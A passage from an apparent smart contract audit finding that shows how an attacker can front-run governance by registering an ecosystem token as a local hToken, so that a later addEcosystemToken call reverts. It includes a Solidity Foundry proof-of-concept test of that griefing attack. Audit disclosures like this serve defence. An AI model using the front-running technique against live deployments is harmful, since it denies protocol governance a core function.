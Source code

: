 `getLocalTokenFromUnderlying[_ecoTokenGlobalAddress]` will not be a zero address because it was set when the attacker added the hToken.

The check here is redundant. Even if someone creates a hToken where the underlying asset will be the ecosystem token, it will not be tied to the ecosystem token in any way, as it has a different global address and a different local address.

### Impact

The governance will fail to add the ecosystem tokens. They will not work with this part of Ulysses because an attacker can easily create a hToken before the ecosystem token is set.

### Proof of Concept

Add this to `RootTest.t.sol`

```solidity
function testAddEcosystemTokenAttack() public {
        //arbitrumMockToken will be the Maia or Hermes token
        hevm.deal(address(this), 1 ether);

        //Attacker adds the Maia or Hermes token
        arbitrumCoreRouter.addLocalToken{value: 0.0005 ether}(
            address(arbitrumMockToken), GasParams(0.5 ether, 0.5 ether)
        );

        newArbitrumAssetGlobalAddress =
            RootPort(rootPort).getLocalTokenFromUnderlying(address(arbitrumMockToken), rootChainId);

        require(
            RootPort(rootPort).getGlobalTokenFromLocal(address(newArbitrumAssetGlobalAddress), rootChainId)
                == address(newArbitrumAssetGlobalAddress),
            "Token should be added"
        );
        require(
            RootPort(rootPort).getLocalTokenFromGlobal(newArbitrumAssetGlobalAddress, rootChainId)
                == address(newArbitrumAssetGlobalAddress),
            "Token should be added"
        );
        require(
            RootPort(rootPort).getUnderlyingTokenFromLocal(address(newArbitrumAssetGlobalAddress), rootChainId)
                == address(arbitrumMockToken),
            "Token should be added"
        );

        //The admin will then fail to add an ecosystem token because the tx reverts
        rootPort.addEcosystemToken(address(arbitrumMockToken));

    }
```
